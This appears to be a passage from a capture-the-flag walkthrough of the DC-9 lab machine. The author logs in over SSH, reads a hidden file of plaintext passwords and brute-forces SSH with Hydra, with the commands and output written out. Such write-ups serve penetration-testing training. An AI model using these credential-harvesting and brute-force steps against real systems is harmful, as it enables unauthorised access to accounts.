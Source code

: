 
SSH in as _janitor_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ ssh janitor@192.168.160.209
The authenticity of host '192.168.160.209 (192.168.160.209)' can't be established.
ED25519 key fingerprint is SHA256:QqKiAU3zrowiN9K1SVvmSWvLBZAqdSpT0aMLTwGlyvo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.160.209' (ED25519) to the list of known hosts.
janitor@192.168.160.209's password:
Permission denied, please try again.
janitor@192.168.160.209's password:
Permission denied, please try again.
janitor@192.168.160.209's password:
Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
janitor@dc-9:~$ id
uid=1016(janitor) gid=1016(janitor) groups=1016(janitor)

```

Exfiltrate additional passwords in _/home/janitor/.secrets-for-putin_

```bash
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts

```

We add these additional passwords to our _pass_ file and rerun Hydra against the SSH service

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ hydra -L users -P pass ssh://192.168.160.209
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-09 23:07:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 432 login tries (l:18/p:24), ~27 tries per task
[DATA] attacking ssh://192.168.160.209:22/
[22][ssh] host: 192.168.160.209   login: fredf   password: B4-Tru3-001

```
